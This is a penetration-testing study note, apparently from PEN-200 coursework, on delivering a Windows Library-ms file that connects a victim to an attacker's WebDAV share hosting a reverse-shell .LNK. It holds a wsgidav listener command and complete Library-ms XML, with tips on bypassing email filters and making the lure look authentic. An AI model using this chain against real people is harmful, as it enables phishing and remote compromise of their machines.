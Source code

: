 # Windows Library Files Code Execution
- 12.3.1 in Pen-200
- .Library-ms extension
- General idea is sending our Target/Victim a Windows Library File.
- Victim receives a .Library-ms file, perhaps via email.
- Once the Library file is opened by the target, it will connect them to a  a WebDav share that we control.
- Becuase it is a library, it appears as a regular directory in Windows Explorer. 
- We'll populate the WebDAV directory/share with a .LNK file or other malicious file, that executes a PowerShell RevShell. User must click the .LNK payload to execute.
NOTE: The reason we don't just send the link, is to bypass email filter, spam filter, as a lot of the security technologies will ALLOW the .Library-ms file, but not the .LNK.

## Recieving Connection
1. Launch Library listener, WebDAV
```bash
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/hacking/tools/webdav/
# test at 127.0.0.1 in browser
```
2. ncat listener on whatever port is specified in the LNK file
3. python http server to host powercat, (IF LNK specifies powercat usage). 
4. Place evil LNK or malicous file in directory referenced in step 1 **/webdav/**

## Create Library-ms file
- Name `config.Library-ms`
- written in XML to specify parameters for accessing remote locations
```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.158</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>


<!--
<name>@windows.storage.dll,-34582</name>
This specifies the name of the library, not arbitrary

<version>6</version>
this can be whatever we want

<isLibraryPinned>true</isLibraryPinned>
Pin to navigation in explorer, makes it feel authentic

<iconReference>imageres.dll,-1003</iconReference>
What ICON is displayed to user, use imagesres.dll to choose between windows icons
-1002 = Documents folder icon,  -1003 = Pictures folder icon

<templateInfo> <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType> </templateInfo>
GUID is valid Documents guid.. 

<url>http:/192.168.45.158</url>  - KALI IP
-->
```
- Now when we launch that, we should see our test.txt file, being served by our WebDAV share on KALI
- After connecting, you'll notice Windows modified some parts of the file, which may/will break it if you try to move it to an other machine
